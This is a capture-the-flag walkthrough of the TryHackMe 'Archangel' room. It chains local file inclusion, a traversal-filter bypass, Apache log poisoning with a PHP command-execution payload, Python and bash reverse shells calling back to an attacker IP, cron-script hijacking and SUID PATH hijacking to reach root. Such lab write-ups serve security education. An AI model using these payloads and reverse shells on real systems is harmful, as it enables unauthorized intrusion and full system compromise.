# Introduction

Welcome to another write-up. Today we are tackling the **Archangel** room on TryHackMe. This is a boot-to-root challenge that will test our web enumeration and privilege escalation skills on a Linux environment. Let's dive in.

# Task 1: Deploy machine

**1. Deploy the machine.**
> Done.

# Task 2: Get a shell

## 1. Enumeration

### Nmap Scan
I started by scanning the target to identify open ports and services.

```bash
nmap -A -p- -T4 10.65.136.16 -oN nmap-scan
```
Nmap Results:

```Plaintext
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
```

**Analysis:**
The scan reveals two open ports: 22 (SSH) and 80 (HTTP). The web server is running Apache on Ubuntu.

## Web Enumeration

I visited the website at `http://10.65.136.16`. The page displayed a generic "WaveFire" company site.

Looking at the page header, I noticed a support email address listed as `support@mafialive.thm`. This immediately revealed the internal hostname.


**Hostname Found:** `mafialive.thm`

> **Answer 1**
>
>> Find a different hostname
>
>> `mafialive.thm`


### Configuration
To access the virtual host, I added the domain to my `/etc/hosts` file to map it to the target IP.

```bash
echo "10.65.136.16 mafialive.thm" | sudo tee -a /etc/hosts
```

### 2. Capturing Flag 1
With the hostname configured, I visited `http://mafialive.thm`. The site loaded a different page than the IP address, confirming the virtual routing.

I immediately spotted the first flag displayed on the homepage.



> **Answer 2**
>
>> Find flag 1
>
>> `thm{REDACTED}`


## 3. Finding the Development Page
The next objective was to find a "page under development." I decided to use `feroxbuster` to enumerate directories and files, as it's faster and handles recursion well.



The tool successfully located `http://mafialive.thm/test.php`

I visited the page and found a title reading "Test Page. Not to be Deployed" and a single button labeled "Here is a button".



> **Answer 3**
>
>> Look for a page under development
>
>> `test.php`

## 4. Vulnerability Discovery (LFI)

Clicking the button didn't trigger any obvious visible change on the page content immediately (other than the text "Control is an illusion"), but I noticed a significant change in the URL bar.

**URL Change:**
`http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php`



**Analysis:**
The **view** parameter is taking a full file path (`/var/www/html/development_testing/mrrobot.php`) as input. This strongly suggests a `Local File Inclusion (LFI)` vulnerability. If the input isn't properly sanitized, we can manipulate this parameter to read arbitrary files on the system (like `/etc/passwd`) or `source code.`

**Attempting Directory Traversal:**
I attempted to read the `/etc/passwd` file using standard traversal payloads.
```bash
http://mafialive.thm/test.php?view=../../../../etc/passwd
```
The server responded with "Sorry, Thats not allowed". This indicates a filter is in place, likely blocking the ../ sequence to prevent basic traversal.

## 5. Filter Bypass & Flag 2

Since I knew the absolute path from the previous URL (/var/www/html/development_testing/mrrobot.php), I realized I didn't need to use ../. I could target the known files directly using their full paths.

To read the content of the file (instead of executing it), I used the **PHP base64 filter wrapper.**


I modified the payload to target `test.php` instead of the decoy file.

**Payload:**
```text
view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```
And the result is a long base64 string.



```plaintext
CQo8IURPQ1RZUEUgSFRNTD4KPGh0bWw+Cgo8aGVhZD4KICAgIDx0aXRsZT5JTkNMVURFPC90aXRsZT4KICAgIDxoMT5UZXN0IFBhZ2UuIE5vdCB0byBiZSBEZXBsb3llZDwvaDE+CiAKICAgIDwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iL3Rlc3QucGhwP3ZpZXc9L3Zhci93d3cvaHRtbC9kZXZlbG9wbWVudF90ZXN0aW5nL21ycm9ib3QucGhwIj48YnV0dG9uIGlkPSJzZWNyZXQiPkhlcmUgaXMgYSBidXR0b248L2J1dHRvbj48L2E+PGJyPgogICAgICAgIDw/cGhwCgoJICAgIC8vRkxBRzogdGhte2V4cGxvMXQxbmdfbGYxfQoKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICBpZihpc3NldCgkX0dFVFsidmlldyJdKSl7CgkgICAgaWYoIWNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcuLi8uLicpICYmIGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcvdmFyL3d3dy9odG1sL2RldmVsb3BtZW50X3Rlc3RpbmcnKSkgewogICAgICAgICAgICAJaW5jbHVkZSAkX0dFVFsndmlldyddOwogICAgICAgICAgICB9ZWxzZXsKCgkJZWNobyAnU29ycnksIFRoYXRzIG5vdCBhbGxvd2VkJzsKICAgICAgICAgICAgfQoJfQogICAgICAgID8+CiAgICA8L2Rpdj4KPC9ib2R5PgoKPC9odG1sPgoKCg==
```

I decoded the resulting Base64 string and successfully retrieved the source code for the vulnerable page.

```php
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>

    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

            //FLAG: thm{REDACTED}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            if(isset($_GET["view"])){
            if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
                include $_GET['view'];
            }else{

                echo 'Sorry, Thats not allowed';
            }
        }
        ?>
    </div>
</body>                                                                                                                                                                                                                         </html>


```



> **Answer 4**
>
>> Find flag 2
>
>> `thm{REDACTED}`


### 6. Vulnerability Analysis
Analyzing the source code retrieved above reveals the logic behind the security filter:

```php
function containsStr($str, $substr) {
    return strpos($str, $substr) !== false;
}

if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
    include $_GET['view'];
}
```
The logic has two conditions:

1. **The Allow List: The path must contain /var/www/html/development_testing.**
2. **The Block List: The path must not contain ../...**

The Bypass:

We can bypass the directory traversal filter because strpos is looking for the exact string ../... In Linux, **..//..//** is functionally equivalent to **../../** but looks different to the string matching function.

## 7. Apache Log Poisoning (RCE)

The hint "Poison" suggests targeting the Apache Access Logs. If we can inject PHP code into the log (by sending a malicious User-Agent) and then include that log file, the server will execute our code.

You can read this documentation its pretty useful -> https://github.com/VVVI5HNU/LFI-RCE-log-poisoning

### Step 1: Verify Access to Logs
First, I verified that I could read the Apache access logs. Since I knew the filter blocked `../..`, I used the bypass `..//..//` to navigate to the standard Ubuntu log location.

**Payload:**
```text
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log
```
The server returned the content of the log file, confirming that I had read access.



### Step 2: Injecting the Payload (Log Poisoning)

To achieve Remote Code Execution (RCE), I decided to poison the log file by injecting a PHP shell. Apache logs the **User-Agent** header of every request, making it a perfect vehicle for our payload.

I used curl to send a request with a malicious User-Agent containing a PHP `system()` call.

```bash
curl -A "<?php system(\$_GET['cmd']); ?>" http://mafialive.thm/test.php
```
:::note
**The \ before $_GET escapes the variable so it is sent literally to the server, rather than being interpreted by my local shell.**
:::

### Step 3: Executing Code

With the payload successfully written to access.log, I triggered it by including the log file again via the LFI vulnerability. This time, I appended the &cmd=id parameter to execute a system command.

**URL :**
```url
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&cmd=id
```
Scanning through the response (in the last line of the output) , I found the output of the id command executed by the server:
`uid=33(www-data) gid=33(www-data) groups=33(www-data)`



**RCE Confirmed!**

## 8. Getting a Reverse Shell

### Step 1: Setting up the Listener
To upgrade my access from simple command execution to an interactive shell, I started a Netcat listener on my local machine.

```bash
nc -lvnp 4444
```

### Step 2: Payload Execution

I utilized a standard Python3 reverse shell one-liner to initiate the callback.

**Payload:**

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MY_VPN_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
I URL-encoded this payload using CyberChef to ensure it would be processed correctly by the browser, then passed it to the cmd parameter.



### Step 3: Catching the Shell

The listener caught the connection, granting me a shell as the www-data user.



## 9. Retrieving User Flag

With shell access, I navigated to the /home directory to identify users.

```bash
$ ls /home
archangel
```

I accessed the user's directory and retrieved the flag.



> **Answer 5**
>
>> Get a shell and find the user flag
>
>> `thm{REDACTED}`

### False Lead: The "Password Backup"
While enumerating the `/home/archangel` directory, I found a folder named `myfiles` containing a file called `passwordbackup`.

```bash
$ cat /home/archangel/myfiles/passwordbackup
https://www.youtube.com/watch?v=dQw4w9WgXcQ
```

I checked the link, and it turned out to be a Rickroll (Rick Astley - Never Gonna Give You Up). This was a rabbit hole. So we got Rickrolled :))

### Enumeration
I checked `/opt` and found a custom script named `helloworld.sh`.



Crucially, this file is **world-writable** (777 permissions).

I then checked `/etc/crontab` to see if this script was being executed automatically.



Vulnerability Identified:
The system runs `/opt/helloworld.sh` every `minute` as the user `archangel`. Since I have write permissions to this file, I can replace its contents with a `reverse shell payload` to escalate my privileges from `www-data` to `archangel`.

### Exploiting the Cron Job

Since I had write access to `/opt/helloworld.sh`, I appended a reverse shell one-liner to the script. This ensures that when the cron job executes the script (every minute), it will also execute my malicious code.

**Step 1: Setting up the Listener**
I started a new Netcat listener on port 5555 to catch the incoming connection.

```bash
nc -lvnp 5555
```

**Step 2: Injecting the Payload**
I used the echo command to append the bash reverse shell to the target script.

```bash
echo "bash -i >& /dev/tcp/10.9.1.145/5555 0>&1" >> /opt/helloworld.sh
```
**Step 3: Catching the Shell**
After waiting for less than a minute, the cron job executed, and I received a callback on my listener.



## Retrieving User 2 Flag

With access as archangel, I navigated to the previously restricted secret directory. And I read the flag file found therein.



>> **Answer 6**
>
>> Get User 2 flag
>
>> `thm{REDACTED}`

## 4. Root Privilege Escalation (Path Hijacking)

### Enumeration
I listed the files in the `secret` directory and identified a suspicious binary named `backup`.

```bash
archangel@ubuntu:~/secret$ ls -l backup
-rwsr-xr-x 1 root root 16904 Nov 18 2020 backup
```

The `s` bit indicates it is a `SUID binary` owned by root. When I attempted to run it, it produced an error involving the cp command.

`cp: cannot stat '/home/user/archangel/myfiles/*': No such file or directory`

Vulnerability Analysis:
The error message reveals that the binary is trying to execute the system command cp. Crucially, because it likely calls cp directly (instead of the absolute path /bin/cp), it is vulnerable to Path Hijacking. The system will look for cp in the directories listed in my PATH variable. If I can place a malicious script named cp in a folder I control and add that folder to the start of my PATH, the binary will execute my script as root instead of the real copy command.

## Exploitation

To exploit this, I created a malicious script named cp in the current directory (/home/archangel/secret). This script simply spawns a bash shell.

And I manipulated the PATH environment variable. I added the current directory (.) to the beginning of the path list.



Finally, I executed the SUID binary. The binary searched for cp, found my malicious script first (because my current directory is now first in the list), and executed it with root privileges.



> **Answer 7**
>
>> Root the machine and find the root flag
>
>> `thm{REDACTED}`

# Conclusion

And that’s a wrap! We successfully compromised the **Archangel** machine by chaining multiple vulnerabilities:

1.  **LFI & Log Poisoning:** We turned a simple file inclusion bug into Remote Code Execution.
2.  **Horizontal Escalation:** We hijacked a cron job to pivot to the `archangel` user.
3.  **Vertical Escalation:** We exploited a path hijacking vulnerability in a SUID binary to gain `root` access.

This room was a great exercise in understanding how simple misconfigurations—like world-writable scripts and relative paths in SUID binaries—can lead to total system compromise.

Thanks for reading! Happy Hacking ツ
